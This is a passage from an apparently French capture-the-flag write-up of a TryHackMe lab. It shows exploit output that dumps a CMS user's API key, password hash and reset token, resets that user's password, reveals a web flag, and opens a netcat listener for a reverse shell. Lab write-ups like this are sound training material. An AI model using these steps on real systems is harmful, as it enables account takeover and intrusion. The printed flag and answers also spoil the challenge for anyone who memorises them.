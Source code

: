 ```bash
	 [*] i18n : en
	 [*] api_key : account-21ca3cfc400e3e565cfcb0e3f6b96d
	 [*] password : $2y$10$uiZPeUQNErlnYxbI5PsnLurWgvhOCW2LbPovpL05XTWY.jCUave6S
	 [*] name : Skidy
	 [*] _modified : 1621719311
	 [*] _created : 1621719311
	 [*] _id : 60a9790f393037a2e400006a
	 [*] _reset_token : rp-3b4c2d717e1d554d6534461ea59a0a7e617efe950f81c
	 [*] md5email : 5dfac21f8549f298b8ee60e4b90c0e66
--------------------------------------------


[+] Do you want to reset the passowrd for skidy? (Y/n): 
[-] Attempting to reset skidy's password:
[+] Password Updated Succesfully!
[+] The New credentials for skidy is: 
 	 Username : skidy 
 	 Password : ?#h{RRRkCh
```

On regarde les informations de skidy et on trouve son adresse mail qui est : skidy@tryhackme.fakemail  

**What is the web flag?**

On se connecte sur le cms avec le compte admin.  
On trouve un fichier webflag.php, qui contient le flag.   
Le flag est : thm{f158bea70731c48b05657a02aaf955626d78e9fb}  

**compromise the machine and enumerate collections in the document database installed in the server. What is the flag in the database?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute le port 1234 pour avoir un shell.   
